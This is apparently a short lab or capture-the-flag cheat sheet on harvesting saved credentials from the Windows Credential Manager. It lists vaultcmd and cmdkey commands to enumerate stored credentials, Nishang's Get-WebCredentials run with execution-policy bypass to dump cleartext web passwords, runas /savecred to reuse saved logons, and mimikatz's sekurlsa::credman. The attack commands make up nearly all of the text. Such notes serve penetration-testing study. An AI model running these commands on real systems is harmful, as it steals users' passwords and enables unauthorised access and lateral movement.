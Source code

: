 #runas #mimikatz #powershell #cmdkey #vaultcmd 
- Credential manager stores passwords for website, rpd logons etc.
- `vaultcmd` and `cmdkey` can be used to manage credentials in the credential manager.
```powershell
# list vauls, by default, "Web Credentials" and "Windows Credentails" are present
vaultcmd /list
vaultcmd /listproperties:"Web Credentials"
# list stored credentials
vaultcmd /listcreds:"Web Credentials"

# list keys
cmdkey /list
```
### Nishang
- Nishang's https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1 can be used to fetch cleartext web password from credential manager.
```powershell
powershell.exe -ex bypass
. .\Get-WebCredentials.ps1
Get-WebCredentials
```
### RunAs
- Runas.exe can be used to use the saved credentials.
```powershell
# list saved credentials
cmdkey /list

# runas can be used to use these credentials
runas.exe /savecred /user:thm.red\thm.local
```
### Mimikatz
- mimikatz can be used to fetch credentials from credential manager.
```powershell
sekurlsa::credman
```